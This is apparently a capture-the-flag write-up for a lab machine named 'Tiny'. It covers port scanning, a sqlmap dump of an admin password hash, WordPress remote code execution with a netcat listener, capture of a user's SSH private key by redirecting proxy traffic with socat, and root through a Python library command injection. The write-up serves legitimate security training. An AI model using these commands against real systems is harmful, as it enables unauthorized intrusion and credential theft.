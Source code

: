 ```yaml
---
title: Tiny Writeup
date: 2024-02-11
categories:
  - Writeups
tags:
  - Sql_injection
  - Wordpress
  - Privilege_Escalation
---
```


# Arp-scan 

 Detecting the IP of the machine

```bash
192.168.1.97	08:00:27:ee:8a:18	PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
root@kali ~ [SIGINT]# nmap  -sC 192.168.1.97 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 06:17 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.04% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.76% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.44% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for tiny (192.168.1.97)
Host is up (0.0012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http
|_http-generator: WordPress 6.3.1
|_http-title: Blog
| http-robots.txt: 15 disallowed entries 
| /wp-admin/ /cgi-bin/ /private/ /temp/ /backup/ /old/ 
| /test/ /dev/ / /misc/ /downloads/ /doc/ /documents/ 
|_/restricted/ /confidential/
8888/tcp open  sun-answerbook
MAC Address: 08:00:27:EE:8A:18 (Oracle VirtualBox virtual NIC)
```

We can see that 80, 22 and 8888 ports are opened

# Add Hosts

![](/assets/img/tiny/website.png)

We are able to see that the website is loading contents in domain tiny.hmv, and hence we need to add the domain into /etc/hosts , so that it can resolve properly (virtual hosting).

```shell
echo "192.168.1.97  tiny.hmv" >> /etc/hosts
```

# Url Enumeration

As usual, firstly, we will check whether there is robots.txt

From robots.txt:

```shell
# Additional sitemap references
Sitemap: http://tiny.hmv/sitemap.xml
Sitemap: http://wish.tiny.hmv/sitemap.xml
```

We are able to find that there is a subdomain which is called "wish.tiny.hmw"

# Sql injection

Check whether the website is vulnerable to sqli (sql injection)

![](/assets/img/tiny/burp.png)

It appears that Sqli is existed on the website and there we use sqlmap to enumerate the user and the password in the database:

```shell
sqlmap -r req.req --batch -D wish_db -T admin -C id,password,username --dump 
```

Results:

```shell
Database: wish_db                                                         
Table: admin
[1 entry]
+----+--------------------------------------------+----------+
| id | password                                   | username |
+----+--------------------------------------------+----------+
| 1  | 8df4387dd1598d4dcf237f9443028cec           | umeko    |
+----+--------------------------------------------+----------+

```

*Not going to show the decrypted password, as the content of the decrypted password is offensive*

# Shell 

Logging into the website and using wpscan, we can detect that the website is vulnerable to  [CVE-2023-5201](https://github.com/advisories/GHSA-52wg-h24c-3wgr), which we can do Remote Code Execution.

![](/assets/img/tiny/wordpress_cve.png)

We listen to port 1234 by using nc (netcat) and get the shell

```bash
nc -nlvp 1234
```

Upgrading simple shells to fully interactive TTYs

```shell
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

Referring to the port scanning result earlier, we notice that port 8888 is opened as well and yet to be used, hence we can make a smart assumption.

```shell
ss -tulnp
ps -elf 
```

![](/assets/img/tiny/ps.png)

![](/assets/img/tiny/ss.png)

We can see that TinyProxy is running

By accessing  /etc/tinyproxy/tinyproxy.conf, we can the configurations

```shell
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
```

![](/assets/img/tiny/config.png)

From that, we can see that port 1111 is opened, and all traffic is being directed to "localhost:1111"

If all the traffics is being directed to port 1111, we can make an assumption and listen to port 1111 by using "nc", from the response we can see that "Get http://127.0.0.1:8000/id_rsa".

Hence we can do a redirection of traffic from port 1111 to 8000 by using "socat" 

```
socat -v tcp-listen:1111;reuseaddr tcp:localhost:8000
```

and hence we are able to get the private key, saving and naming it as "id_rsa"

![](/assets/img/tiny/private_key.png)

Granting "id_rsa" with 600 permission and we connect user vic by using "id_rsa" via ssh

```shell
chmod 600 id_rsa
ssh -i id_rsa vic@127.0.0.1
```

# Root Access

 After accessing user "vic", we are able to get our first flag.

![](/assets/img/tiny/user_flag.png)

By doing sudo -l, we can see that we can use sudo command to execute /opt/car.py

![](/assets/img/tiny/permissions.png)

We see what it is contained in "car.py" file and we can see "pydash lib", which we can find a Command Injection vulnerability  

```shell
cat car.py
```

![](/assets/img/tiny/car_py_content.png)

By doing this, we are able to get Root Permission and get the flag

![](/assets/img/tiny/privilege_escalation.png)
